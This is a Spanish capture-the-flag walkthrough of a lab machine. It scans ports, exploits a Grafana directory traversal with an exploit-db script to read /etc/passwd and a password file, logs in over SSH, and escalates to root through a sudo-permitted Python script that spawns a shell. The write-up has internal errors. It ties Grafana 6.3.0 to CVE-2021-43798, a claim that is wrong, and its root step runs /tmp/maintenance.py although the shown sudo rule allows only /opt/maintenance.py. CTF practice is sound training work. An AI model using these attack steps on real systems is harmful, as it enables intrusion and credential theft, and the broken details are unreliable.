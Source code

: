 ## 1. Reconocimiento Inicial de Puertos con Nmap

Realizamos un escaneo exhaustivo con `nmap` para detectar puertos abiertos, sus versiones y el sistema operativo. Esto nos proporciona una visión general de los servicios expuestos y posibles vulnerabilidades asociadas a sus versiones.

```bash
nmap -O -sC -sV <IP_DEL_OBJETIVO>
```

**Resultados:**

*   `21/tcp open ftp vsftpd 3.0.3`: El puerto 21 (FTP) está abierto y permite acceso anónimo (`ftp-anon`). Esto es un punto de interés para buscar archivos sensibles.
*   `22/tcp open ssh OpenSSH 9.6p1 Debian`: El puerto 22 (SSH) está abierto, lo que indica que podemos intentar acceder al sistema por esta vía si encontramos credenciales.
*   `80/tcp open http Apache httpd 2.4.58`: El puerto 80 (HTTP) está abierto y ejecuta un servidor web Apache. La página por defecto no revela información útil inicialmente.
*   `3000/tcp open http Grafana http`: El puerto 3000 está abierto y ejecuta una instancia de Grafana. Esto es un punto de interés crítico, ya que Grafana es una aplicación compleja que a menudo presenta vulnerabilidades.

## 2. Enumeración Web y Descubrimiento de Información Sensible

Nos centramos en los servicios web y FTP para encontrar pistas.

### 2.1. Exploración del FTP Anónimo

Intentamos acceder al servidor FTP de forma anónima.

```bash
ftp <IP_DEL_OBJETIVO>
# Usuario: anonymous
# Contraseña: anonymous
```

Aunque podemos iniciar sesión, el directorio `mantenimiento` no nos permite descargar archivos, lo que limita su utilidad.

### 2.2. Fuzzing Web en el Puerto 80

Realizamos un fuzzing de directorios con `gobuster` en el puerto 80 para descubrir rutas ocultas o archivos interesantes en el servidor web Apache.

```bash
gobuster dir -w /path/to/wordlist/directory-list-2.3-medium.txt -u http://<IP_DEL_OBJETIVO>
```

**Resultados Relevantes:**

*   `maintenance.html`: Este archivo contiene el mensaje `Webside under maintenance, access is in /tmp/pass.txt`. Esta es una pista que nos indica la ubicación de un archivo con información sensible.

### 2.3. Exploración de Grafana (Puerto 3000)

Al acceder a `http://<IP_DEL_OBJETIVO>:3000/`, encontramos la interfaz de inicio de sesión de Grafana. La versión de Grafana es `6.3.0`. Una búsqueda rápida en `searchsploit` o bases de datos de vulnerabilidades revela que Grafana 6.3.0 es vulnerable a un `Directory Traversal` (CVE-2021-43798.

Esta vulnerabilidad permite a un atacante leer archivos arbitrarios del sistema de archivos del servidor. Esto es extremadamente útil para obtener credenciales, archivos de configuración o cualquier otra información sensible.

### 2.4. Explotación de Grafana (Directory Traversal)

Utilizamos un exploit conocido para la vulnerabilidad de Directory Traversal en Grafana. Este exploit generalmente permite especificar una ruta de archivo en el servidor para leer su contenido.

Copiamos el exploit de `searchsploit` (por ejemplo, `50581.py` si es el caso) y lo ejecutamos, especificando la IP y el puerto de Grafana.

```bash
cp /usr/share/exploitdb/exploits/multiple/webapps/50581.py exploit.py
python3 exploit.py -H http://<IP_DEL_OBJETIVO>:3000
```

**Lectura de `/etc/passwd`:**

Utilizamos el exploit para leer el archivo `/etc/passwd`, que contiene una lista de usuarios del sistema. Esto es fundamental para identificar posibles nombres de usuario.

```bash
Read file > /etc/passwd
```

**Resultados Clave de `/etc/passwd`:**

*   `freddy:x:1000:1000::/home/freddy:/bin/bash`: Identificamos al usuario `freddy`.

**Lectura de `/tmp/pass.txt`:**

Recordando la pista de `maintenance.html`, utilizamos el exploit para leer el contenido de `/tmp/pass.txt`.

```bash
Read file > /tmp/pass.txt
```

**Resultado:**

*   `t9sH76gpQ82UFeZ3GXZS`: Esta es una cadena que parece ser una contraseña.

## 3. Acceso Inicial (SSH)

Ahora que tenemos un posible nombre de usuario (`freddy`) y una contraseña (`t9sH76gpQ82UFeZ3GXZS`), intentamos acceder al sistema.

### 3.1. Verificación de Credenciales con Hydra (FTP)

Aunque ya tenemos las credenciales, podemos usar `hydra` para verificar si funcionan con el servicio FTP, y de paso, confirmar el usuario si no lo tuviéramos claro. Es una buena práctica para validar credenciales.

```bash
hydra -L /path/to/wordlist/seclists/Usernames/xato-net-10-million-usernames.txt -p t9sH76gpQ82UFeZ3GXZS ftp://<IP_DEL_OBJETIVO>
```

**Salida:**

```bash
[21][ftp] host: 172.17.0.2   login: freddy   password: t9sH76gpQ82UFeZ3GXZS
```

Esto confirma que las credenciales `freddy:t9sH76gpQ82UFeZ3GXZS` son válidas para el servicio FTP.

### 3.2. Conexión SSH

Con las credenciales confirmadas, intentamos acceder vía SSH.

```bash
ssh freddy@<IP_DEL_OBJETIVO>
# Contraseña: t9sH76gpQ82UFeZ3GXZS
```

Si la conexión es exitosa, hemos obtenido acceso inicial al sistema como el usuario `freddy`.

## 4. Escalada de Privilegios

Una vez que hemos obtenido acceso SSH como el usuario `freddy`, el objetivo es escalar privilegios a `root`.

### 4.1. Verificación de Permisos Sudo

Verificamos qué comandos puede ejecutar el usuario `freddy` con `sudo` sin necesidad de contraseña. Esto se hace con el comando `sudo -l`.

```bash
sudo -l
```

**Resultados Clave:**

*   `(ALL) NOPASSWD: /usr/bin/python3 /opt/maintenance.py`

Esto significa que el usuario `freddy` puede ejecutar el script Python `/opt/maintenance.py` como cualquier usuario (incluido `root`) sin necesidad de introducir su contraseña.

### 4.2. Abuso de Script Python para Obtener Root

```bash
nano /tmp/maintenance.py
```

Dentro del archivo, pegamos el siguiente código Python:

```python
import os
os.system("/bin/sh")
    ```

Este script simplemente ejecuta una shell (`/bin/sh`).

Ejecutar el script con `sudo`:

```bash
sudo /usr/bin/python3 /tmp/maintenance.py
 ```

Al ejecutar este comando, obtendremos una shell con privilegios de `root`.

```bash
whoami
# root
```
